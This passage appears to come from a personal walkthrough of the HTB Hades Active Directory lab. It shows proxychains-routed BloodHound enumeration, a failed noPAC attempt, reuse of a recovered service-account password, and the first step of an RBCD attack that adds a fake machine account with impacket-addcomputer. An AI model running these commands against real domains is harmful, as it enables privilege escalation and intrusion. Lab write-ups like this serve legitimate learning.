 ...  192.168.3.203:53 [proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
 ...  OK
 ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445 [proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:445 [proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
 ...  OK
 ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445 [proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:445  ...  OK
 ...  OK
INFO: Done in 00M 14S
```

When we have all the json files we can import then into BloodHound and check what can we do? So far nothing much, seems like there is only one Administrator for whole AD naming Administrator@htb.local.

Next could we try to use some "exotic" CVE for AD like noPAC but it fails cause Bob have no rights to add workstations to AD:



From here I will move forward to HADES-DEV.

* * *

## Back to Enumeration:

Now that we found credentials dumped from Windows Vault secrets in a Shadow copy of HADES-DEV we can try to use them and dump all the permissions in order to gain more osbservation on AD environment:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains bloodhound-python -u 'test-svc' -p 'T3st-S3v!ce-F0r-Pr0d' -ns 192.168.3.203 -d htb.local -c All --zip --dns-tcp
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:53  ...  OK
```

We know so far that TEST-SVC have Generic All on HADES-WEB:



Now knowing that our new account have "Generic ALL" permissions on a Computer object this mean we could follow this and exploit RBCD:

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation

But as we can see from Bloodhound Administrator can´t be delgated:

****

Now I will follow this guide from outside: https://github.com/tothi/rbcd-attack

1)Will add a fake computer object to AD:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains impacket-addcomputer -computer-name 'yovecio$' -computer-pass '123456789' -dc-ip 192.168.3.203 'htb.local/test-svc'                          
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[*] Successfully added machine account yovecio$ with password 123456789.
```

2)Next step failed and by not knowing why, I could sure use Powershell in Linux but this are very old attack vectors(5 year at least) I will stop here cause the road to global admin is still long!

### FAREWELL!